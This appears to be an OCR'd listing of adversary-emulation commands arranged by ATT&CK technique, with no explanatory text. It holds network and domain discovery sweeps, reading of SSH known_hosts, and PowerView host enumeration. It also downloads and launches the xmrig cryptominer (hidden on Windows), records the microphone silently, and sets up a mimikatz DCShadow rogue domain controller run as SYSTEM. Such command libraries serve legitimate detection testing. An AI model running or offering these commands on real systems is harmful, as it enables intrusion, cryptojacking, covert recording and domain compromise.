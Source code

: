 * for ip in $(seq 1 #{stop_host}); do ping -c 1 #{subnet}.$ip; [ $? -eq 0 ] && echo "#{subnet}.$ip UP" || : ; done
* net view /domain
net view
* $localip = ((ipconfig | findstr [0-9].\.)[0]).Split()[-1]
$pieces = $localip.split(".")
$firstOctet = $pieces[0]
$secondOctet = $pieces[1]
$thirdOctet = $pieces[2]
foreach ($ip in 1..255 | % { "$firstOctet.$secondOctet.$thirdOctet.$_" } ) {cmd.exe /c nslookup $ip}
* arp -a
* arp -a | grep -v '^?'
* Import-Module .\PowerView.ps1 -Force;
Get-NetComputer
* Import-Module .\powerview.ps1;
Get-DomainComputer
* nltest /dsgetdc:$env:USERDOMAIN
* nltest /dsgetdc:%USERDOMAIN%
* cat ~/.ssh/known_hosts
* arp -a
* (nslookup -querytype=mx #{target.org.domain}. | Select-String -pattern 'mail' | Out-String).Trim()
* host "#{target.org.domain}" | grep mail | grep -oE '[^ ]+$' | rev | cut -c 2- | rev
* nslookup #{remote.host.ip}
* nbtstat -A #{remote.host.ip}
* net.exe view /domain
* qwinsta.exe /server:
* installutil.exe /logfile= /LogToConsole=false /U *.dll
##T1091: Replication Through Removable Media
##T1496: Resource Hijacking
* yes > /dev/null
* Invoke-WebRequest -Uri https://github.com/xmrig/xmrig/releases/download/v6.11.2/xmrig-6.11.2-msvc-win64.zip -OutFile xmrig-6.11.2-msvc-win64.zip;
Expand-Archive -LiteralPath xmrig-6.11.2-msvc-win64.zip -DestinationPath .\;
Start-Process ".\xmrig-6.11.2\xmrig.exe" -WindowStyle Hidden;
Start-Sleep -Seconds 60;
Stop-Process -Name "xmrig"
* wget https://github.com/xmrig/xmrig/releases/download/v6.11.2/xmrig-6.11.2-linux-x64.tar.gz;
tar -xf xmrig-6.11.2-linux-x64.tar.gz;
timeout 60 ./xmrig-6.11.2/xmrig;
[ $? -eq 124 ]
* curl -OL https://github.com/xmrig/xmrig/releases/download/v6.11.2/xmrig-6.11.2-macos-x64.tar.gz;
tar -xf xmrig-6.11.2-macos-x64.tar.gz;
screen -S miner -dm ./xmrig-6.11.2/xmrig;
sleep 60s;
killall xmrig;
screen -S miner -X quit
* brew install sox >/dev/null 2>&1;
sox -d recording.wav trim 0 15 >/dev/null 2>&1;
##T1207: Rogue Domain Controller
* # starting fake DC server, as SYSTEM (required)
$dc_output_file = "$env:TEMP\art-T1207-mimikatz-DC.log"
Remove-Item $dc_output_file -ErrorAction Ignore
$mimikatzParam ="`"log $dc_output_file`" `"lsadump::dcshadow /object:bruce.wayne /attribute:#{attribute} /value:#{value}`" `"exit`""
$dc = Start-Process -FilePath cmd.exe -Verb Runas -ArgumentList "/c #{psexec_path} /accepteula -d -s #{mimikatz_path} $mimikatzParam"
